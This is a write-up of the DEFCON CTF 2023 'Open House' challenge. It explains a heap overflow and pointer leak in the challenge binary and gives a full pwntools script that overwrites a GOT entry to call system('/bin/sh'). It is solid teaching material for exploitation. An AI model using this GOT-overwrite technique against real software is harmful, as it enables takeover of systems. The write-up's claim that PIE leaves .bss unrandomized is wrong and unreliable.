 # Open House (DEFCON CTF 2023 Qualifiers)

Description
```
You are cordially invited to an exclusive Open House event, where dreams meet reality and possibilities abound.
Join us for an unforgettable experience as we showcase a captivating array of properties, each waiting to become your dream home.

Host: open-house-6dvpeatmylgze.shellweplayaga.me
Port: 10001
```
Category - Quals  
Points - 64  

This is the easiest binary challenge in DEFCON CTF 2023 Quals. I worked hard on this one but didn't get it.
I found that there is heap overflow due to the modify function, and we can use it to overwrite the GOT table, but didn't know how.

## Warning

The solution here is not a complete solution since I'm running the program on my own machine, instead of attacking a remote host.

## Analysis

The program shows reviews and allows us to create (c), delete (d), modify (m), or view (v) the entries.
By default there are 10 reviews. We can type q to quit.

```
Welcome! Step right in and discover our hidden gem! You'll *love* the pool.
c|v|q> c
Absolutely, we'd love to have your review!
test
Thanks!
c|v|m|d|q> v
Check out these recent rave reviews from other prospective homebuyers:
**** - This charming and cozy house exudes a delightful charm that will make you feel right at home. Its warm and inviting ambiance creates a comforting haven to retreat to after a long day's hard work.
**** - Don't let its unassuming exterior fool you; this house is a hidden gem. With its affordable price tag, it presents an excellent opportunity for first-time homebuyers or those seeking a strong investment.
**** - Step into this well-maintained house, and you'll find a tranquil retreat awaiting you. From its tidy interior to the carefully tended garden, every corner of this home reflects the care and attention bestowed upon it.
**** - Situated in a prime location, this house offers unparalleled convenience. Enjoy easy access to schools, shops, and public transportation, making everyday tasks a breeze.
**** - Although not extravagant, this house offers a blank canvas for your creativity and personal touch. Imagine the endless possibilities of transforming this cozy abode into your dream home, perfectly tailored to your taste and style.
**** - Discover the subtle surprises that this house holds. From a charming reading nook tucked away by the window to a tranquil backyard oasis, this home is full of delightful features that will bring joy to your everyday life.
**** - Embrace a strong sense of community in this neighborhood, where friendly neighbors become extended family. Forge lasting friendships and create a sense of belonging in this warm and welcoming environment.
**** - With its well-kept condition, this house minimizes the hassle of maintenance, allowing you to spend more time doing the things you love. Move in with peace of mind, knowing that this home has been diligently cared for.
**** - Whether you're looking to expand your investment portfolio or start your real estate journey, this house presents a fantastic opportunity. Its affordability and potential for future value appreciation make it a smart choice for savvy buyers.
**** - Escape the hustle and bustle of everyday life and find solace in the tranquility of this home. Its peaceful ambiance and comfortable layout provide a sanctuary where you can relax, recharge, and create beautiful memories with loved ones.
**** - test

c|v|m|d|q> q
Thanks for stopping by!
```

The reviews are stored in the heap, as a doubly-linked list. Each review has a body with a length of 0x200, with two pointers following
(first one is forward pointer, pointing to the next entry, second one is the back pointer, pointing to the last), so the total length is 0x208.

I found two vulnerabilities. First, the strncpy function is used to create review entries.
But if the string to be loaded is too large, the string loaded into memory will not be null terminated.
Second, the modify function allows us to modify up to a length of 0x210, meaning that we can easily overwrite the pointers.

## Solution

I come up with the solution below only after reading the answers by the others, so I would like to give credit to them here:
https://robbert1978.github.io/posts/OpenHouse-DEFCON-Quals-2023/  
https://scavengersecurity.com/posts/defconquals-openhouse/

If we create an overflowed entry, the body of the review will not be null terminated, so when we view it, we can read beyond the body,
and see the pointers. This leaks the address in the heap.
However, the program enabled PIE, so address in the heap is randomized.
Nevertheless, there is a hidden 0th entry, which resides in the .bss segment instead of heap.
By deleting all entries and create an overflowed entry, we can read the bk pointer pointing to the 0th entry (in .bss).

The .bss segment is not randomized, like most of the memories space. (PIE only randomized certain segments, such as the heap)
Therefore, we can calculate the address of the GOT table.
The GOT table (Global Offset Table) contains pointers to libc functions.
We can read it by first modifying the 1st entry's forward pointer, then when the program tries to read the 2nd entry,
it will find the 2nd entry through the 1st entry's forward pointer, and land at wherever we want.
Similarly we can modify any memory, but modifying the 1st entry's forward pointer and then modifying the 2nd entry (which is any memory we like).

Therefore, we can read the address of an libc function in the GOT table, calculate the address of system() in libc,
then find a suitable libc function to be replaced by system().
The address of system() can always be calculated if you know the libc version and the address of any libc function.
The libc version can also be deduced by the address of one, or some, libc functions, using libc databases like https://libc.blukat.me/ .
To replace the function with system(), we modify the GOT entry of that function with the address of system().

Here is the python script I used to get a shell

```
from pwn import *

def create(data):
    p.sendlineafter(b"c|v",b"c",timeout=10)
    p.sendline(data)

def modify(idx,data):
    p.sendlineafter(b"c|v",b"m",timeout=10)
    p.sendline(idx)
    p.sendline(data)

def view():
    p.sendlineafter(b"c|v",b"v",timeout=10)

def delete(idx):
    p.sendlineafter(b"c|v",b"d",timeout=10)
    p.sendline(idx)

# Initialize
libc = ELF("/lib32/libc.so.6")
e = ELF("./open-house")
p = e.process()

# We have to create an entry in order to unlock all functionalities
create(b"test")

# Delete all entries
for i in range(11):
    delete(b"1")

# Create an entry with overflowing "A"s.
# Due to the behaviour of strncpy, a string without null termination is loaded into the heap.
# Then we create one more entry so that the fwd pointer of the 1st entry is not null.
# This will leak the pointers of the 1st entry when we view it.
create(b"A"*520)
create(b"something")

# We view it and read the pointers.
# The first pointer is the fwd pointer, pointing to the next entry.
# The second pointer is the bk pointer, pointing to the last entry.
# In this case, bk points to the 0th entry, which is at .bss segment.
view()
test = p.recvuntil(b"A"*512,timeout=10)
fwd = p.recv(4,timeout=10)
bk = p.recv(4,timeout=10)
print("The pointer to the 0th entry at .bss:")
print(bk)

# .bss is outside the heap, so its address is not randomized.
# We can use this address as an anchor to find the addresses of the other stuff.
# In particular, we are interested in the GOT table, where pointers to libc functions are stored.
#
# Below is some references:
# fputs@got.plt is at bk-0x10, it contains the address of fputs@libc
# strlen@got.plt is at bk-0x24, it contains the address of strlen@libc
got_fputs_addr = p32(u32(bk) - u8(b"\x10"))
got_strlen_addr = p32(u32(bk) - u8(b"\x24"))
print("The calculated address of fputs@got.plt:")
print(got_fputs_addr)
print("The calculated address of strlen@got.plt:")
print(got_strlen_addr)

# Modify the fwd pointer of the 1st entry, and point it to fputs@got.plt, so that we can read its content
modify(b"1",b"B"*512+got_fputs_addr+b"\x00"*4)

# View the entries and read the pointer (address) to fputs@libc
view()
p.recvuntil(b"B"*512,timeout=10)
p.recvline(timeout=10)  #leakage of the address you put in
p.recvuntil(b"**** - ",timeout=10)
libc_leak = p.recv(4,timeout=10) #the address of fputs@libc
print("The leaked address of fputs@libc:")
print(libc_leak)

# Calculate the address of system@libc, which will allow us to spawn a terminal.
# Here we know the version of libc so we don't need to search for the libc version.
system_addr = p32(u32(libc_leak) - libc.sym.fputs + libc.sym.system)
print("The calculated address of system@libc:")
print(system_addr)

# Modify the fwd pointer of the 1st entry to strlen@got.plt,
# and then modify the 2nd entry (now it's strlen@got.plt) to system@libc, so that strlen@got.plt points to system@libc.
# Lastly, create a new entry with "/bin/sh" as the content, to trigger strlen("/bin/sh"), which now becomes system("/bin/sh")
modify(b"1",b"B"*512+got_strlen_addr+b"\x00"*4)
modify(b"2",system_addr)
create(b"/bin/sh")

# Enjoy!
p.interactive()
```

Note that the code only works locally, because I'm working on it after the end of the competition.
According to the references, however, the libc version of the remote host is probably not found in many libc databases.
So the solution here is considerably easier than what is needed actually if you are unable to figure out the libc version.

Final notes:  
I didn't make it clear how to find the address of the GOT or of system().
To put it simple, you can get the memory map by debugging the program with gdb.
The offsets works even in a remote host, because they're fixed (but not for the heap becuz of randomization).
To find system() address, we need to know the libc version first.
The offsets to a particular function is fixed for a given libc version.
So if you know the libc version and address to any one function, you know the address of system() relative to the function.
